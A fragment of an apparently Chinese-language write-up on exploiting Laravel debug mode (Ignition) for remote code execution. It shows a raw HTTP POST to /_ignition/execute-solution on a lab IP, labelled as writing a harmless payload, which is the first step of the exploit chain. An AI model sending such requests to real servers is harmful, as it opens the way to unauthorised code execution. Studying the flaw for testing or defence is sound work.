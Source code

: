 ![image-20220211175633524](LaravelDebugModRCE.assets/image-20220211175633524.png)  

写入无害payload

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 143
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "AA", "variableName": "doesnotexist"}}
```

![image-20220211175706181](LaravelDebugModRCE.assets/image-20220211175706181.png)  
